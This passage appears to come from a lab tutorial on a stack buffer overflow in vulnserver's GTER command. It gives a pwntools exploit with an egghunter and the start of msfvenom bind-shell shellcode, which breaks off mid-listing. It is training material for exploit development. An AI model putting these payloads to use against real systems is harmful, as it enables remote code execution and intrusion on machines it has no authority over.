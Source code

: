 > **Note:** one might also want to try subracting some bytes from ESP and the jumping into it instead of directly jumping to the hardcoded address. While this is a possible solution, you might find yourself struggling with stack alignmet issues, since you are altering ESP. In case you run into this problem, try adding the subtracted amount to ESP after the jump.

# 2nd stage
Now we can use this relatively large buffer to insert our second stage. The obvious choice here is to use an egghunter.

~~~
from pwn import *

def expl():
    conn = remote('192.168.0.57', 6666, typ='tcp')
    EIP = "\xAF\x11\x50\x62"
    jmpBack = "\xe9\x64\xff\xff\xff" #not inverted bytes since it goes to the stack!

    #32 bytes egghunter - egg b33f
    eggHunter = "\x66\x81\xca\xff\x0f\x42\x52\x6a\x02\x58\xcd\x2e\x3c\x05\x5a\x74\xef\xb8\x62\x33\x33\x66\x8b\xfa\xaf\x75\xea\xaf\x75\xe7\xff\xe7"
    buf = "\x90"*30 + eggHunter + "\x90"*85 + EIP + jmpBack + "C"*300
    payload = "GTER /.:/" + buf + "\r\n"
    conn.send(payload)
    print(conn.recv(1024))
    conn.close()

expl()
~~~

![10]({{ "/assets/media/vulnserver/vulnserver_gter_10.png" | absolute_url }})

Notice we have set a few NOPs before and after the egghunter just to make the exploit a little more reliable (30 NOPs + 32 egghunter + 85 NOPs = 147 bytes).

# 3rd stage
This is the most critical part in my opinion. Yes we decided to use an egghunter, great. The point is: how can we store the shellcode in some other place in memory? There is only one variable and we already know where it is mapped to!

![Boxes everywhere!](https://i.imgflip.com/12h1ju.jpg "Boxes are round")

Remember all those other parameters in vulnserver? Well, we could use them to send the shellcode and hope for it to be stored in a large, smooth and happy buffer. THEN our egghunter will finally make sense!

As we don't know which parameter we should use, why not try each and every one of them? Except for GTER of course.
After running it we realize KSTET breaks our exploit so we also remove it.

~~~
from pwn import *

#msfvenom -a x86 --platform windows -p windows/shell_bind_tcp -e x86/mixed_alpha -f python
buf =  "b33fb33f" #eggegg
buf += "\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b"
buf += "\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7"
buf += "\x4a\x26\x31\xff\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf"
buf += "\x0d\x01\xc7\xe2\xf2\x52\x57\x8b\x52\x10\x8b\x4a\x3c"
buf += "\x8b\x4c\x11\x78\xe3\x48\x01\xd1\x51\x8b\x59\x20\x01"
buf += "\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b\x01\xd6\x31"
buf += "\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03\x7d"
buf += "\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66"
buf += "\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0"
buf += "\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f"
~~~